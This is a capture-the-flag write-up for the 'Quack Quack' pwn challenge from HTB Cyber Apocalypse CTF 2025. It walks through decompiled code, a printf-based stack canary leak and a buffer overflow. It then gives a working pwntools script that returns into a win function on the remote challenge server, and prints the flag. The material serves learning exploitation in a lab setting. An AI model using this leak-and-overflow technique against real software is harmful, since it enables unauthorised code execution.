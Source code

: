 ```yaml
---
title: Quack Quack
type: writeup
date: 2025-03-29T18:19:13+02:00
description: Writeup for Quack Quack [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Intuition

We can open the binary in Ghidra and see that the `main()` function calls an interesting `duckling()` function. Here is the latter's decompiled code, comments added by me:

```c
void duckling(void)
{
  long lVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  char buf [102];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);

// [...]

  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0,buf,0x66);
  pcVar2 = strstr(buf,"Quack Quack "); // <--- find "Quack Quack " in user input
  if (pcVar2 == (char *)0x0) {
    error("Where are your Quack Manners?!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ",pcVar2 + 0x20); // <--- print content after "Quack Quack ". Which can be used to leak
  read(0,buf + 0x20,0x6a);  // <--- start reading user input to buf+0x20 (overflow)
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The program does the following:

1. Reads 0x66 bytes from the user.
2. Copies it to `buf`.
3. Searches for `Quack Quack ` in it and returns in it `pcVar2`.
4. Prints content from `pcVar2+0x20`.
5. Reads 0x6a bytes into `buf+0x20`.

Because `Quack Quack ` can be found at the end of the buffer, the `printf()` call at step 4 can be used to leak the stack content, including the cookie.

Then we can use the overflow at step 5 to overwrite the return address and return to a *win* function that is provided in the binary:

```c
void duck_attack(void)
{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

## Solution

Below is a Python script that leaks the canary and overflows the buffer to return to `duck_attack()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./quack_quack")
target = remote("83.136.253.25", 52011)

win = 0x0040137f

msg = b"Quack Quack "
payload = b"a" * (101 - len(msg)) + msg # put "Quack Quack " at the end to leak stack contents
target.send(payload)
target.recvuntil(b"Quack Quack ")
target.recvlines(5)
line_leak = target.recvline()
print(line_leak)
leak = b"\x00" + line_leak.split()[3][:-1] # get cookie leak and rbp

print(leak, len(leak))

payload = b"a" * 88 + leak + p64(win)[:2] + p64(win)[:2] # this is super weird because my leak included the rbp, too lazy to change it
target.send(payload)

target.interactive()

```

### Flag

`HTB{~c4n4ry_g035_qu4ck_qu4ck~_SOME_UNIQUE_ID}`

